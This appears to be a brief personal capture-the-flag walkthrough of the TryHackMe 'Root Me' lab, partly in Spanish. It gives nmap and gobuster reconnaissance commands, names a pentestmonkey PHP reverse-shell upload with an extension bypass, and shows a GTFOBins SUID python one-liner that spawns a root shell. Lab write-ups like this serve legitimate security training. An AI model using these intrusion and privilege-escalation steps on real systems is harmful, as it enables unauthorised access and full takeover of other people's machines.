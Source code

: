 # Root Me

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 4 de diciembre de 2024 21:30
IP: 10.10.10.6

```bash
nmap: nmap :  map -p- -sS -sV -sC --min-rate 5000 -n -Pn 10.10.10.6 -oN namp
```

```bash
gobuster: gobuster dir -u IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Reverse shell PHP : pentestmonkey (bypass php amb php5)

```bash
cat /var/www-data/user.txt
```

Escalada:

```bash
sudo -l
suid : /usr/bin/python
```

GTFObins: 

```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```bash
cat /root/root.txt
```